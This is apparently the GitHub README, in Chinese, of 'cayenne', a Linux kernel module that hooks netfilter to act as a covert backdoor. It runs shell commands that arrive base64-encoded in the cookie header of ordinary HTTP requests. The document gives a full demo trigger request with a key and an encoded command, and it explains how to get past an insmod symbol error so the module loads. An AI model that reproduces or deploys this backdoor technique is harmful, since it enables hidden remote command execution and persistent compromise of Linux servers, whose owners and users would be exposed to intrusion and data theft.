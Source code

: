 # cayenne
通过HTTP请求中的某一约定字段做C2控制，内核层通过netfilter监听并执行命令
## 内核
LINUX 4.15.0-143-generic  
## DEMO
```
GET / HTTP/1.1
Host: 192.168.122.136
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
cookie: 91d1c532-b156-11eb-8e2c-dfb994043297;ZWNobyAxID4gL3RtcC8xMjM0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36 Edg/90.0.818.51
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```
cookie后半部分是base64编码的shell命令，目前的实现没有做回显（这个需要实现一个专用客户端，封装一个上层协议，暂未实现）
## FAQ
如遇错误
```
cayenne: Unknown symbol __nf_nat_mangle_tcp_packet (err -2)
```
先执行如下语句后再重试insmod  
```
sudo iptables -t nat --list
```